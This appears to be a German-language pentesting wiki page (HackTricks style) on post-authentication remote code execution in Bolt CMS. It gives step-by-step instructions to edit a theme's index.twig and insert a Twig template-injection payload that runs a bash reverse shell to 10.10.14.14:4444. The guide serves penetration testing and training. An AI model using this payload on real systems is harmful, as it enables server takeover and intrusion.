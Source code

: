 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Nach dem Login als Admin (gehen Sie zu /bot, um die Anmeldemaske zu erreichen), können Sie RCE in Bolt CMS erhalten:

- Wählen Sie `Configuration` -> `View Configuration` -> `Main Configuration` oder gehen Sie zum URL-Pfad `/bolt/file-edit/config?file=/bolt/config.yaml`
- Überprüfen Sie den Wert des Themas

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Wählen Sie `File management` -> `View & edit templates`
- Wählen Sie das im vorherigen Schritt gefundene Basis-Thema (`base-2021` in diesem Fall) und wählen Sie `index.twig`
- In meinem Fall befindet sich dies im URL-Pfad /bolt/file-edit/themes?file=/base-2021/index.twig
- Setzen Sie Ihre Payload in diese Datei über [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), wie: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Und speichern Sie die Änderungen

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Leeren Sie den Cache in `Maintenance` -> `Clear the cache`
- Greifen Sie erneut als regulärer Benutzer auf die Seite zu, und die Payload sollte ausgeführt werden

{{#include ../../banners/hacktricks-training.md}}
